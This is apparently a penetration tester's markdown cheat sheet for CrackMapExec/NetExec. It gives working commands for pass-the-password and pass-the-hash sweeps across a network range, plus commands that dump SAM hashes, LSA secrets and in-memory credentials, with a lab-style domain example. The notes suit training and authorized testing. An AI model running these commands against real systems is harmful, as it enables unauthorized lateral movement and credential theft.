 -- -
This is now called #netexec, you can use these exact same commands, just change `crackmapexec` to `netexec`. 
### Interact w/ db
crackmapexec hosts a database where it keeps all the credentials and what not that you have gathered on an engagement. 
```bash
# open db
cmedb

# show hosts
hosts

# dump all the credentials you have gathered
creds
```
### Using modules
```bash
# List available modules for the service
crackmapexec <service> -L
crackmapexec smb -L

# use a module
crackmapexec smb <ip> -u <username> -p <password> -M <module>
```
### Pass-The-Password
Sweep network with valid set of #userpass credentials to see what kind of access we can get on various machines/services
```bash
# Pass-The-Password against SMB
crackmapexec smb <cidr range> -d <domain> -u <username> -p <password>
crackmapexec smb 192.168.138.0/24 -d MARVEL.local -u fcastle -p Password1
```

^bd85ee

### Pass-The-Hash
Sweep network with valid set of #userhash credentials to see what kind of access we can get on various machines/services. 
```bash
# Note: requires full NTLM hash
# This tests local-authentication versus AD auth

# see where you can log into
crackmapexec smb <cidr range> -u <username> -H <NTLM hash> --local-auth

# see where you can log into and dump the SAM if local admin
crackmapexec smb <cidr range> -u <username> -H <NTLM hash> --local-auth --sam

# Enumerate shares
crackmapexec smb <cidr range> -u <username> -H <NTLM hash> --local-auth --shares

# dump lsa secrets
crackmapexec smb <cidr range> -u <username> -H <NTLM hash> --local-auth --lsa

# Dump secrets in memory, if available
crackmapexec smb <cidr range> -u <username> -H <NTLM hash> --local-auth -M lsassy
```

^116e4a

### Enum usernames on a domain
